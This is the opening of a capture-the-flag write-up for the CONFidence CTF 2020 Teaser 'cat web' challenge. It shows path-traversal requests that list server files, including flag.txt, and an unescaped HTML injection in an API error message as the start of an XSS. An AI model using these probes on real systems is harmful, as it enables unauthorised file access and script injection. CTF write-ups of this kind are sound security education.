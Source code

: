 # CONFidence CTF 2020 Teaser

**It's recommended to read our responsive [web version](https://balsn.tw/ctf_writeup/20200314-confidencectf2020teaser/) of this writeup.**


 - [CONFidence CTF 2020 Teaser](#confidence-ctf-2020-teaser)
   - [Web](#web)
     - [cat web](#cat-web)
       - [Failed Attempts](#failed-attempts)
     - [Temple JS (unsolved)](#temple-js-unsolved)
   - [Misc](#misc)
     - [Angry Defender (unsolved)](#angry-defender-unsolved)


---

## Web

### cat web

The server uses AJAX APIs to render the website content. The API endpoint is like this:

```
/cats?kind=black

{"status": "ok", "content": ["il_570xN.1285759626_8j8m.jpg", "24.jpg", "2468b5d0-67e8-4d77-9bbb-87a656c8087a-large3x4_Untitledcollage.jpg"]}
```

Let's quickly fuzz a little bit:

```
/cats?kind=black/../../

{"status": "ok", "content": ["prestart.sh", "uwsgi.ini", "main.py", "templates", "static", "app.py"]}


/cats?kind=black/../../templates

{"status": "ok", "content": ["report.html", "index.html", "flag.txt"]}
```

So the flag.txt is in the `templates` directory. Also, the response contains `access-control-allow-origin: *` which allows cross-origin read.

Next, there is a XSS bot on the index page. We have to find a XSS point. The `/cats?kind=` API will return the raw error message in JSON without encoding the HTML.

```
http://catweb.zajebistyc.tf/cats?kind=<h1>hi</h1>

{"status": "error", "content": "<h1>h1</h1> could not be found"}
```
